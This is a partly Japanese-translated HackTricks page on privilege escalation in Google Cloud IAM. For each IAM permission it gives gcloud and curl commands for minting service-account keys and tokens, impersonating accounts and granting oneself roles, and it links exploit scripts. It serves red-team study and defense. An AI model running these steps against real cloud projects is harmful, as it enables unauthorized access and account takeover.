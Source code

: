 # GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

IAMに関する詳細情報は以下を参照してください:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

前述の権限を持つ攻撃者は、あなたに割り当てられたロールを更新し、次のような他のリソースへの追加権限を与えることができます:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
You can find a script to automate the **creation, exploit and cleaning of a vuln environment here** and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

An attacker with the mentioned permissions will be able to **サービスアカウントに属するアクセストークンを要求することができる**、したがって、私たちの権限よりも多くの権限を持つサービスアカウントのアクセストークンを要求することが可能です。
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
あなたは、[**脆弱な環境の作成、悪用、クリーンアップを自動化するスクリプトをここで見つけることができます**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) およびこの特権を悪用するためのPythonスクリプトを[**ここで見つけることができます**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py)。詳細については、[**元の研究を確認してください**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)。

### `iam.serviceAccountKeys.create`

前述の権限を持つ攻撃者は、**サービスアカウントのユーザー管理キーを作成することができ**、それによりそのサービスアカウントとしてGCPにアクセスすることが可能になります。
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
ここに、[**脆弱な環境の作成、悪用、クリーンアップを自動化するスクリプト**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh)と、この特権を悪用するためのPythonスクリプトが[**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py)にあります。詳細については、[**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)を確認してください。

**`iam.serviceAccountKeys.update`はSAのキーを変更するためには機能しない**ことに注意してください。なぜなら、それを行うには`iam.serviceAccountKeys.create`の権限も必要だからです。

### `iam.serviceAccounts.implicitDelegation`

もし、**`iam.serviceAccounts.implicitDelegation`**の権限を持つサービスアカウントが、別のサービスアカウントに対して**`iam.serviceAccounts.getAccessToken`**の権限を持っている場合、その第三のサービスアカウントのために**トークンを作成するためにimplicitDelegationを使用することができます**。説明を助けるための図は以下の通りです。

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

[**ドキュメント**](https://cloud.google.com/iam/docs/understanding-service-accounts)によると、`gcloud`の委任は[**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken)メソッドを使用してトークンを生成するためにのみ機能することに注意してください。したがって、APIを直接使用してトークンを取得する方法は以下の通りです：
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
You can find a script to automate the [**作成、悪用、脆弱な環境のクリーンアップはこちら**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) and a python script to abuse this privilege [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). For more information check the [**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

An attacker with the mentioned permissions will be able to **GCPで任意のペイロードに署名する**. So it'll be possible to **SAの署名されていないJWTを作成し、それをblobとして送信してターゲットのSAによってJWTに署名させる**. For more information [**こちらを読む**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

You can find a script to automate the [**作成、悪用、脆弱な環境のクリーンアップはこちら**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) and a python script to abuse this privilege [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) and [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). For more information check the [**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

An attacker with the mentioned permissions will be able to **適切に形成されたJSONウェブトークン（JWT）に署名する**. The difference with the previous method is that **JWTを含むblobに署名するためにgoogleに署名させるのではなく、すでにJWTを期待しているsignJWTメソッドを使用します**. This makes it easier to use but you can only sign JWT instead of any bytes.

You can find a script to automate the [**作成、悪用、脆弱な環境のクリーンアップはこちら**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) and a python script to abuse this privilege [**こちら**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). For more information check the [**元の研究**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

An attacker with the mentioned permissions will be able to **サービスアカウントにIAMポリシーを追加する**. You can abuse it to **自分に必要な権限を付与してサービスアカウントを偽装する**. In the following example we are granting ourselves the `roles/iam.serviceAccountTokenCreator` role over the interesting SA:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

The **iam.serviceAccounts.actAs permission** is like the **iam:PassRole permission from AWS**. It's essential for executing tasks, like initiating a Compute Engine instance, as it grants the ability to "actAs" a Service Account, ensuring secure permission management. Without this, users might gain undue access. Additionally, exploiting the **iam.serviceAccounts.actAs** involves various methods, each requiring a set of permissions, contrasting with other methods that need just one.

#### サービスアカウントの偽装 <a href="#service-account-impersonation" id="service-account-impersonation"></a>

サービスアカウントを偽装することは、**新しいより良い権限を取得するために非常に役立ちます**。他のサービスアカウントを[偽装する方法は3つあります](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating\_a\_service\_account):

* RSA秘密鍵を使用した**認証**（上記で説明）
* Cloud IAMポリシーを使用した**認可**（ここで説明）
* **GCPサービスでのジョブのデプロイ**（ユーザーアカウントの侵害により適用される）

### `iam.serviceAccounts.getOpenIdToken`

An attacker with the mentioned permissions will be able to generate an OpenID JWT. These are used to assert identity and do not necessarily carry any implicit authorization against a resource.

According to this [**interesting post**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b), it's necessary to indicate the audience (service where you want to use the token to authenticate to) and you will receive a JWT signed by google indicating the service account and the audience of the JWT.

You can generate an OpenIDToken (if you have the access) with:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
その後、次のようにしてサービスにアクセスできます：
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
いくつかのサービスは、この種のトークンを介して認証をサポートしています：

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (Google OIDCを使用している場合)

サービスアカウントの代わりにOpenIDトークンを作成する方法の例は[**こちら**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py)で見つけることができます。

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
